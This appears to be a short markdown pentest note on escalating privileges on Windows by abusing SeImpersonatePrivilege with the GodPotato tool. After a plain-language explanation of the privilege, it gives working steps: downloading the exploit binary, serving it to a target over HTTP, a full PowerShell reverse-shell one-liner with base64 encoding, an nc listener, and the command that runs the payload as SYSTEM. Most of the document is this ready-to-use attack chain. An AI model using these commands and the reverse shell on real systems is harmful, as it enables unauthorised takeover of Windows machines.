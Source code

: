# SeImpersonatePrivilege
SeImpersonatePrivilege is a Windows security privilege that allows a process to impersonate other users, including high-privileged accounts like SYSTEM, Administrator, or even Domain Admins.

Think of it as putting on someone else's security badge. If you have this privilege, when another process (running as a different user) connects to your process, you can temporarily "wear their security badge" and perform actions with their level of access.

# Steps
1. Download the GodPotato-NET4.exe
2. create a powershell base64 formate encoded code
3. Start listner and Run the GodPotato-NET4.exe


# Download and Transfer it
```language
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
python3 -m http.server 80

curl http://ip:80/GodPotato-NET4.exe -o gp.exe
```
# Create a rev.ps1 file and convert to the powershell formate
Please change the ip here 
```language
$c=New-Object System.Net.Sockets.TCPClient("127.0.0.1",9001);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){;$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+"PS "+"> ";$sby=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()};$c.Close()
```
```language
cat rev.ps1 | iconv -t utf-16le | base64 -w0; echo 
```
# start listner
```language
rlwrap nc -lvnp 9001
.\gp.exe -cmd "powershell <encoded code here> "
```
